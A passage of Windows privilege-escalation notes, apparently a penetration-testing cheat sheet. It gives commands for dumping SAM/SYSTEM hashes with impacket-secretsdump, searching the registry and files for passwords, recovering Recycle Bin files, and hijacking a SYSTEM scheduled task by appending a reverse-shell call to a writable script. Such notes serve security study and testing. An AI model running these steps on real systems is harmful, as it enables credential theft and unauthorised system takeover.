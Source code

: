 SAM & SYSTEM can be found in `C:\Windows\System32\config`
Check SAM & SYSTEM readable:
```PowerShell
(Get-Acl "C:\Windows\System32\config\SAM").Access
```
Dump SAM + SYSTEM:
```bash
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

Search registry for "*password*":
```bat
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

Recursively search for files in the current directory that contain the word `password` and also end in either `.xml`, `.ini`, or `.txt`:
```
findstr /si password *.xml *.ini *.txt
```

# 6) Recycle Bin
Note the single quotes:
```PowerShell
Get-ChildItem -Path 'C:\$Recycle.Bin' -Force
```
Recover files:
```PowerShell
Copy-Item -Path 'C:\$Recycle.Bin\<SID>\<filename>' -Destination "C:\RecoveredFiles\"
```
# 7) Scheduled Tasks
***Remember you will not be able to see higher privileged Scheduled Tasks***
- AutoRuns
- List all scheduled tasks **your user** can see:
```PowerShell
Get-ScheduledTask | where {$_.TaskPath -notLike "\Microsoft*"} | ft TaskName,TaskPath,State
```
```bat
schtasks /query /fo LIST /v
```
### Privilege Escalation
1) For example, we find a PowerShell `.ps1` script that is being run every minute as the SYSTEM user
	1) We can check our privileges on this script with `icacls` or `accesschk.exe`
		1) `accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1`
		2) It appears we have the ability to write to this file
2) Backup the script
	2) `copy C:\DevTools\CleanUp.ps1 C:\Temp\`
3) Start a listener
4) Use `echo` to append a call to our reverse shell executable to the end of the script
	1) `echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1`
5) Wait for the scheduled task to run to complete the exploit
